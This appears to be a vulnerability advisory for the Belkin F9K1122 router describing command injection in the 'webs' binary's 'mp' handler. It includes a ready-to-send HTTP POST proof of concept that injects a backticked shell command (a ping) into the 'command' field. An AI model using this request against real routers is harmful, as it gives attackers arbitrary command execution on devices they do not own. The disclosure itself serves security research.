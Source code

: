 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Belkin router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `webs` binary:

In `mp` function, `command` is directly passed by the attacker, so we can control the `command` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `command` as **`ping 192.168.1.6`** , and the router will excute it,such as:

```http
POST /goform/mp HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/mp.asp
Upgrade-Insecure-Requests: 1

command=`ping 192.168.1.6`
```



## Result

Ping!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

